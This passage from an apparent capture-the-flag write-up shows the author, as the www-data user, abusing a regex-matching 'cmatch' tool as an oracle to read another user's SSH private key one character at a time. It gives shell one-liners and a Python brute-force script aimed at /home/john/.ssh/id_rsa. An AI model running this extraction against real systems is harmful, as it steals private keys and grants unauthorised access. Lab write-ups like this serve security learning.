 

The Python command will print the ascii letters one per line. The
`while` will read them into `c`, and then I'll run `cmatch`. The result
removes the string for no matches, and if something else if found
(`grep` returns success), it will echo the character. It works!



    www-data@fingerprint:/$ python -c "import string; print('\n'.join(string.ascii_letters))" | while read c; do cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\n${c}" | grep -qv "Found matches: 0" && echo $c; done 
    P



The first character is P. I can add "P" to the regex and check the next
characters:



    www-data@fingerprint:/$ python -c "import string; print('\n'.join(string.ascii_letters))" | while read c; do cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\nP${c}" | grep -qv "Found matches: 0" && echo $c; done 
    r
    www-data@fingerprint:/$ python -c "import string; print('\n'.join(string.ascii_letters))" | while read c; do cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\nPr${c}" | grep -qv "Found matches: 0" && echo $c; done 
    o



This is working, but it's not going fast enough. I'll need to script it.

#### SSH Brute Script

I started a simple Python script to try to read the entire key. At
first, I included all `string.printable` in my script, but it kept
breaking due to invalid escapes. I then thought about an SSH key. It has
the base64 alphabet, plus newlines, and "-" at the top and bottom. So I
limited the alphabet to that. The script looked like:



    #!/usr/bin/env python3

    import string
    import subprocess


    alpha = string.ascii_letters + string.digits + ' -/+=\n,:'
    known = "-----BEGIN"
    print(known, end="")

    while True:

        cont = False
        for c in alpha:
            if c in '+/':
                c = f'\\{c}'
            res = subprocess.check_output(f'cmatch /home/john/.ssh/id_rsa "{known}{c}"', shell=True)
            if b'Found matches: 0' not in res:
                print(c[-1], end="", flush=True)
                known = known + c
                cont = True
                break
        if not cont:
            break
